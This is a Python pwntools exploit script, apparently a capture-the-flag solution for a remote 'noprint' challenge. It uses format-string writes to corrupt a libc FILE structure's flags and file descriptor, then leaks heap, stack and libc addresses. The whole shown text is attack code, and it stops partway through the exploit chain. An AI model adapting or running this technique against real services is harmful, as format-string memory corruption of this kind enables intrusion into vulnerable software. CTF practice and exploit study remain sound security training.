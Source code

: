 ```python
from pwn import *

libc = ELF("./libc.so.6")

#p = process("./noprint_patched")
#p = remote("localhost", 1337)
p = remote("noprint.phreaks2600.fr", 1337)
p.recvuntil(b'void')

def modify_file(offset, size, value):
    assert size in [1,2,4,8]
    payload = f"%*9$d%{offset}c%13$n".encode()
    if size == 1:
        payload2 = f"%{value}c%21$hhn"
    elif size == 2:
        payload2 = f"%{value}c%21$hn"
    elif size == 4:
        payload2 = f"%{value}c%21$n"
    elif size == 8:
        payload2 = f"%{value}c%21$n"
    payload2 = payload2.encode()
    p.sendline(payload)
    sleep(2)
    p.sendline(payload2)


fileno_off = 112
new_flags = 0x3e84

payload = f"%{new_flags}c%9$hn".encode()
p.sendline(payload)

modify_file(fileno_off, 1, 1)

payload = b"\n\n"
p.sendline(payload)

p.clean()

payload = f"%9$p%11$p%12$p\n\n"
p.sendline(payload.encode())

leaked = p.recvuntil(b"2a0")

heap = int(leaked[-14:], 16)
stack = int(p.recv(14), 16)
libc_leak = int(p.recv(14), 16) - 0x2a3b8

print(f"{heap=:#x}")
print(f"{stack=:#x}")
print(f"{libc_leak=:#x}")

buffer_ptr = stack-0xa6 & 0xffff
payload = f"%{buffer_ptr}c%11$hn\n\n"
p.sendline(payload.encode())

p.clean()
p.clean()

sleep(1)

#new_flags = 0x3c84
payload = b"%15492c%9$hn\n"
```